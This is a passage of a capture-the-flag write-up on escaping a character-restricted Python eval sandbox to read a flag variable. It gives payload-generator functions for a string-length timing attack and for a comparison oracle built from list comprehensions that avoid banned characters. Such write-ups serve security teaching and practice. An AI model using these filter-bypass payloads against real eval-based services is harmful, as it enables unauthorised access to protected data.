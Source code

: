 Let's make a quick payload generator
```python
def gen_payload(chr_pos,delta_time):
    if chr_pos==0: return "(flag"+"*ord(flag[True])"*delta_time+")[::ord(flag[False])]"
    if chr_pos==1: return "(flag"+"*ord(flag[True])"*delta_time+")[::ord(flag[True])]"
    return "(flag"+"*ord(flag[True])"*delta_time+")[::ord(flag[True"+"+True"*(chr_pos-1)+"])]"
```
Now we just need to execute a timing attack and we have the flag !
How do we decode the time ?

| string length | flag's character value | time  |
| ------------- | ---------------------- | ----- |
| $x\times67^3$ | 73 => I (given)        | $t_0$ |
| $x\times67^3$ | 67 => C (given)        | $t_1$ |
| $x\times67^3$ | 84 => T (given)        | $t_2$ |
| $x\times67^3$ | 70 => F (given)        | $t_3$ |
| $x\times67^3$ | ...                    | $t_n$ |


We can reverse the length of the flag and just do an simple cross product to find each flag's value, have fun 😈
<br>
#### Try 3 : Throw at specific value with a nice compare
We can't use ``=`` but we can still make compares !
```python
if(ord(flag[<number>])^<number>):raise # No raise :(
if(ord(flag[<number>])^<number>):a     # No if in eval
[a for i in flag if (ord(flag[<number>])^<number>)] # No spaces
[(a)for(i)in(flag)if(ord(flag[<number>])^<number>)] # Yeah !
```
Looks really good ! ...
... but we are using too many different characters 😥
```python
# Example
[(a)for(i)in(flag)if(ord(flag[True])^(True+True+...64 more...+True))] # flag[1]==67
```
Our idea is to have ``flag[n]^x==0``, because Python takes anything not null, empty or zero as True we can use another operation to have a 0. An operator like ``-`` !
```python
[(a)for(i)in(flag)if(ord(flag[<number>])-<number>)]

# Example
[(a)for(i)in(flag)if(ord(flag[-True])-(-True-True-...64 more...-True))] # flag[-1]==67
```
Works like a charm 🎇🤩✨ We can read the flag backward and check every value for any of the flag's characters !

Here too let's make a payload generator
```python
def gen_payload2(rev_pos,chr):
    return "[(a)for(u)in(flag)if(-ord(flag["+"-True"*rev_pos+"])-("+"-True"*chr+"))]"
```
